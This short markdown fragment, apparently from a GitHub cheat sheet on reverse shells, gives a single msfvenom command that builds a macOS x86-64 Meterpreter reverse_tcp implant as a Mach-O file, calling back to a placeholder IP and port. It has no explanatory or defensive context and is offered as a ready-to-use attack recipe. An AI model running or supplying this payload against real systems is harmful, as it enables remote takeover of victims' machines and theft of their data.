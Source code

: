 # Reverse Shells

1. **x86-64 (64-bit) Payloads**

```
$ msfvenom -p osx/x64/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f macho -o implant-x64
```
